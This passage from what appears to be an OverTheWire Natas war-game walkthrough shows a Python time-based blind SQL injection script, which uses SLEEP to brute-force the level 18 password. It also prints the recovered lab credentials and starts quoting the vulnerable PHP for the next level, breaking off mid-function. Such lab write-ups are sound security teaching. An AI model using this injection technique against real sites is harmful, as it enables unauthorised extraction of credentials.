 Ah ! Another SQL Injection and this one does not return anything ! We will use the same technique used with the previous SQLi Blind however, this time we will use *time* as an indicator of true/false.

I just modified the script to append the `SLEEP` statement in the injection. Now, if the query timeout, it means it's **true**.

```python
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

charset = ascii_lowercase + ascii_uppercase + digits
sqli_1 = 'natas18" AND password LIKE BINARY "'
sqli_2 = '" AND SLEEP(5)-- '

s = requests.Session()
s.auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')

password = ""
# We assume that the password is 32 chars 
while len(password) < 32:
    for char in charset:
        try:
            payload = {'username':sqli_1 + password + char + "%" + sqli_2}
            r = s.post('http://natas17.natas.labs.overthewire.org/', data=payload, timeout=1)
        except requests.Timeout:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break

```

Again, wait a few seconds and get the password :

```text
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

## Natas 18 Solution

**URL :** [http://natas18.natas.labs.overthewire.org](http://natas18.natas.labs.overthewire.org) <br/>
**Credentials :** *natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP*

Here is the PHP code for this challenge :

```php
<? 

$maxid = 640; // 640 should be enough for everyone 

function isValidAdminLogin() { 
    if($_REQUEST["username"] == "admin") { 
    /* This method of authentication appears to be unsafe and has been disabled for now. */ 
        //return 1; 
    } 

    return 0; 
} 

function isValidID($id) {  
    return is_numeric($id); 
} 

function createID($user) { 
```